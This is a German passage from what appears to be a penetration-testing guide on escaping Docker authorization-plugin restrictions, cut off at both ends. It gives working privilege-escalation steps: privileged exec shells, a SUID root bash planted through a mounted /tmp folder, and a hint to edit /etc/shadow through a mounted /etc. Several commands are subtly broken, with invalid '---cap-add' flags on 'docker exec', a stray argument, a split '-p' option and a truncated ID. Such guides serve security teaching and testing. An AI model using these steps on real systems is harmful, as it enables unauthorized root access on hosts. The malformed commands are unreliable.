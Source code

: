 ```bash
# Now you can run a shell with --privileged
docker exec -it privileged bb72293810b0f4ea65ee8fd200db418a48593c1a8a31407be6fee0f9f3e4f1de bash
# With --cap-add=ALL
docker exec -it ---cap-add=ALL bb72293810b0f4ea65ee8fd200db418a48593c1a8a31407be6fee0f9f3e4 bash
# With --cap-add=SYS_ADMIN
docker exec -it ---cap-add=SYS_ADMIN bb72293810b0f4ea65ee8fd200db418a48593c1a8a31407be6fee0f9f3e4 bash
```
Jetzt kann der Benutzer den Container mit einer der [**zuvor besprochenen Techniken**](./#privileged-flag) verlassen und **Privilegien eskalieren** innerhalb des Hosts.

## Schreibbares Verzeichnis einbinden

In diesem Fall **verbot der Systemadministrator den Benutzern, Container mit dem `--privileged`-Flag auszuführen** oder dem Container zusätzliche Berechtigungen zu geben, und er erlaubte nur das Einbinden des Verzeichnisses `/tmp`:
```bash
host> cp /bin/bash /tmp #Cerate a copy of bash
host> docker run -it -v /tmp:/host ubuntu:18.04 bash #Mount the /tmp folder of the host and get a shell
docker container> chown root:root /host/bash
docker container> chmod u+s /host/bash
host> /tmp/bash
-p #This will give you a shell as root
```
> [!NOTE]
> Beachten Sie, dass Sie möglicherweise den Ordner `/tmp` nicht einhängen können, aber Sie können einen **anderen beschreibbaren Ordner** einhängen. Sie können beschreibbare Verzeichnisse mit folgendem Befehl finden: `find / -writable -type d 2>/dev/null`
>
> **Beachten Sie, dass nicht alle Verzeichnisse auf einer Linux-Maschine das suid-Bit unterstützen!** Um zu überprüfen, welche Verzeichnisse das suid-Bit unterstützen, führen Sie `mount | grep -v "nosuid"` aus. Zum Beispiel unterstützen normalerweise `/dev/shm`, `/run`, `/proc`, `/sys/fs/cgroup` und `/var/lib/lxcfs` das suid-Bit nicht.
>
> Beachten Sie auch, dass Sie, wenn Sie **/etc** oder einen anderen Ordner **mit Konfigurationsdateien** **einbinden** können, diese als Root im Docker-Container ändern können, um sie **auf dem Host auszunutzen** und Privilegien zu eskalieren (möglicherweise durch Modifikation von `/etc/shadow`).

## Unchecked API Endpoint

Die Verantwortung des Sysadmins, der dieses Plugin konfiguriert, besteht darin, zu kontrollieren, welche Aktionen und mit welchen Berechtigungen jeder Benutzer ausführen kann. Daher könnte der Admin, wenn er einen **Blacklist**-Ansatz mit den Endpunkten und den Attributen verfolgt, **einige davon vergessen**, die einem Angreifer ermöglichen könnten, **Privilegien zu eskalieren.**

Sie können die Docker-API unter [https://docs.docker.com/engine/api/v1.40/#](https://docs.docker.com/engine/api/v1.40/#) überprüfen.

## Unchecked JSON Structure
